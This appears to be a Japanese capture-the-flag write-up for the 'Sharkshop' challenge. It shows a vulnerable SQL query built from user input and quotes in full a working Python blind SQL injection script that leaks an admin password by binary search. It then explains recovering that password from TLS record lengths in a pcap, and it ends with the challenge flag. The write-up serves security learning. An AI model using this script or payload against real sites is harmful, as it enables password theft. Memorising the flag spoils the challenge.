# Sharkshop

## 問題文

開発途中のECサイトで管理者ユーザーのパスワードが流出した。現在、利用された可能性のある脆弱性は修正されたが、パスワードの変更はまだ行われていないようだ。その時にキャプチャされた攻撃者の通信記録から、パスワードを推測し"admin"ユーザーとしてログインしてください。

## Writeup

ソースコードを見ると、gitで管理されており、コミット履歴から`GET /coupon`にBlind SQLインジェクションの脆弱性があり、それが現在は修復されていることがわかる。具体的には、

```python
cur = conn.execute(f"SELECT * FROM coupons WHERE code = {code}")
```
の結果が返ってきた場合は

> You can enter coupons after the official launch.

と表示され、返ってこなかった場合は

> Invalid Coupon

と表示される。

pcapファイルを見ると、一番最初のHTTPリクエストで攻撃用のPythonコードがダウンロードされており、このコードが`GET /coupon`を利用してadminユーザーのパスワードをBlind SQLインジェクションを利用して二分木探索でリークしていることがわかる。

```python
import requests
import warnings

warnings.simplefilter("ignore")

url = "https://sharkshop.fwectf.com/coupon"
max_length = 32
result = ""


def check_condition(code):
    r = requests.post(url, data={"coupon_code": code}, verify=False)
    return "You can enter coupons after the official launch." in r.text

i = 0
for pos in range(1, max_length + 1):
    low = 32
    high = 126
    found = False
    while low <= high:
        mid = (low + high) // 2
        payload = f"' OR (SELECT unicode(substr(password,{pos},1)) FROM users WHERE username='admin') >= {mid} --"
        i += 1
        if check_condition(payload):
            low = mid + 1
            char_guess = chr(mid)
        else:
            high = mid - 1
    if low == 32:
        break
    result += char_guess
    print(f"Password so far: {result}", flush=True)

print("Leaked admin password:", result)
print(i)
```

問題文にある通り、この脆弱性はもう使えないので、リプレイ攻撃は難しそうだ。また、攻撃者が`https://sharkshop.fwectf.com/coupon`に対して行った攻撃の際のパケットがpcapファイルに含まれているが、これらはTLS1.3で暗号化されいるので直接フラグを読むことはできない。また、暗号化されたデータを復号することは、pcapファイルだけでは不可能である。

ここで、TLSで通信されたデータの長さに注目する。TLSで暗号化されたデータの長さは、元のデータの長さにおおよそ比例する。したがって、「You can enter coupons after the official launch.」と表示されたときと比べて「Invalid Coupon」と表示された時の方が、暗号化されたデータは短くなる。

一部の通信はパケットロスにより再送信されているため、重複文を除外して長さを確認すると、長さが5037のケースと5071のケースの2パターンであることがわかる。データ長の長い方が「You can enter coupons after the official launch.」に対応しているので、それを利用して二分木探索のコードを再現することができる。

## Flag

`fwectf{pcap_f1L3_d3_c7f_914y3r_w0_k0w464r453m45h0u}`

